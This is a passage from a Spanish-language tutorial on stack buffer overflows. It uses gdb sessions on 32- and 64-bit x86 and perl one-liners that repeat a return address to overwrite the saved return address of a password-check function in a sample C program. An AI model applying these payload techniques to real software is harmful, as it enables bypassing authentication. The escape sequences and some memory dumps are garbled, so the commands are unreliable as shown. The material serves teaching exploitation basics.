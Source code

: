 Experimentando un poco con gdb se descubre que repetir la dirección 8 veces es suficiente para sobrescribir la dirección de retorno original. El comando *$(perl -e &#8216;print &#8220;xbfx84x04x08&#8243;&#8216;x8)* repite la dirección 8 veces, el motivo por el que hay que escribir la dirección al revés es porque internamente se almacenan las direcciones en <a href="http://es.wikipedia.org/wiki/Endianness" target="_blank">little endian</a>. En los resultados de arriba se puede ver cómo se sutituye la dirección de retorno 0x080484bb(entre paréntesis), por la deseada, 0x080484bf.

## En arquitecturas x86_64

Si tenemos un procesador de 64-bits, el proceso es similar, aunque con gdb debemos usar la opción *g* junto al comando examine para que se muestren las direcciones enteras:

```bash
(gdb) b 9
Breakpoint 1 at 0x40064f: file auth_overflow2.c, line 9.
(gdb) b 16
Breakpoint 2 at 0x40069a: file auth_overflow2.c, line 16.
(gdb) run $(perl -e 'print "xeex06x40x00x00x00x00x00"x10')
Starting program: /home/hkr/hack/auth_overflow2.c.binary $(perl -e 'print "xeex06x40x00x00x00x00x00"x10')

Breakpoint 1, check_authentication (password=0x7fffffffe74b "356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@") at auth_overflow2.c:9
9     strcpy(password_buffer, password);
(gdb) x/10xg $rsp
0x7fffffffe380: 0x00007fffffffe3bf  0x00007fffffffe74b
0x7fffffffe390: 0x0000000000000001  0x000000000040078d
0x7fffffffe3a0: 0x00007ffff7a65c48  0x0000000000400730
0x7fffffffe3b0: 0x00007fffffffe3d0  (0x00000000004006ea)
0x7fffffffe3c0: 0x00007fffffffe4b8  0x0000000200000000
(gdb)
```

En 32-bits el puntero de pila se llamaba ESP, en 64-bit es RSP. En este caso la dirección de retorno es `0x00000000004006ea`. Desensamblando la función main como anteriormente,vemos que la dirección de retorno que nos interesa es `0x00000000004006ee`, igual que antes, usamos perl &#8212; __$(perl -e &#8216;print &#8220;xeex06x40x00x00x00x00x00&#8243;x10&#8242;) &#8212;__ sobrescribiendo la dirección por la que nos interesa, quedando así:

```bash
(gdb) c
Continuing.

Breakpoint 2, check_authentication (password=0x7fffffffe74b "356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@") at auth_overflow2.c:16
16        return auth_flag;
(gdb) x/10xg $rsp
0x7fffffffe380: 0x00007fffffffe3bf  0x00007fffffffe74b
0x7fffffffe390: 0x06ee4006ee4006ee  0xee4006ee4006ee40
0x7fffffffe3a0: 0x4006ee4006ee4006  0x00004006ee4006ee
0x7fffffffe3b0: 0x00007fffffffe3d0  (0x00000000004006ea)
0x7fffffffe3c0:  0x00007fffffffe4b8  0x0000000200000000
```
